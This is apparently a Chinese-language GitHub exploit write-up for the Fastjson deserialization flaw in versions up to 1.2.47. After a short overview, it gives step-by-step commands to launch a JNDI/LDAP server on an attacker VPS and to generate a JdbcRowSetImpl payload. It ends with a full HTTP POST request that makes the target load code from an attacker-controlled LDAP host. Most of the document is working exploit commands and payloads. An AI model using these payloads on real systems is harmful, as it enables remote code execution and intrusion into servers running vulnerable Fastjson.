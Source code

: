 ## 漏洞概述

Fastjson于1.2.24版本后增加了反序列化白名单，而在1.2.48以前的版本中，攻击者可以利用特殊构造的json字符串绕过白名单检测，成功执行任意命令。

`heckAutoType`黑名单中可绕过

## 影响范围

```http
Fastjson <= 1.2.47
```

## 漏洞利用

1、启动LDAP服务

[@welk1n（JNDI-Injection-Exploit）](https://github.com/welk1n/JNDI-Injection-Exploit)

需要VPS放行端口，此工具会自动打开监听端口

```bash
java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "要执行的命令" -A "VPS-IP"
```

2、生成Payload（可跳过，直接用payload）

[@c0ny1（FastjsonExploit）](https://github.com/c0ny1/FastjsonExploit) 一键生成个版本Payload，并启动利用环境

这个启动不了环境会报错，所一用上边的方法启动环境，这里的执行命令随便写，不影响结果

```bash
#编译
mvn clean package -DskipTests
```

```bash
java -jar FastjsonExploit-0.1-beta2-all.jar JdbcRowSetImpl5 ldap://110.x.x.4:1389/qlwkdn "cmd:ls"
```

生成的payload

```http
{"name":{"@type":"java.lang.Class","val":"com.sun.rowset.JdbcRowSetImpl"},"x":{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"ldap://1x.x.x.x:1389/qlwkdn","autoCommit":true}}}
```

3、Burp发送payload

```http
POST / HTTP/1.1
Host: 192.168.2.133:32770
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/json
Content-Length: 203

{"name":{"@type":"java.lang.Class","val":"com.sun.rowset.JdbcRowSetImpl"},"x":{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"ldap://1x.x.x.x:1389/qlwkdn","autoCommit":true}}}
```

## 参考链接

[Fastjson反序列化漏洞的检测和利用](https://mp.weixin.qq.com/s?__biz=MzIyNzY1MzUxMQ==&mid=100000244&idx=1&sn=801c947da8f74a4bda5039994951f040&chksm=685ca31c5f2b2a0a414e2848cc7f6e5a6778bbd309fc8d46bb4f4c7769d9f43ae06e0bae4959#rd)



